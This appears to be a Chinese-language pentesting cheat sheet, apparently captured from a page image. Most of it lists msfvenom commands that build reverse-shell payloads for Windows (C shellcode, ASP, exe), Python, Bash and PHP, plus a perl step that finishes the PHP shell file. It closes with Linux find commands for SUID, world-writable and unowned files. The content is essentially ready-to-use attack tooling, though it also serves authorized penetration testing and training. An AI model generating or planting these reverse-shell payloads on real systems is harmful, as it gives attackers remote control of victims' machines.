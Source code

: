```
MSF 生成反弹 Shell (C Shellcode)
```
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
```
MSF 生成反弹 Python Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
```
MSF 生成反弹 ASP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
```
MSF 生成反弹 Bash Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
```
MSF 生成反弹 PHP Shell
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
```
MSF 生成反弹 Win Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
```
Linux 常用安全命令
```
# 使用 uid 查找对应的程序
find / -uid 0 -perm -4000

# 查找哪里拥有写权限
find / -perm -o=w

# 查找名称中包含点和空格的文件
find / -name " " -print
find / -name ".." -print
find / -name ". " -print
find / -name " " -print

# 查找不属于任何人的文件
find / -nouser
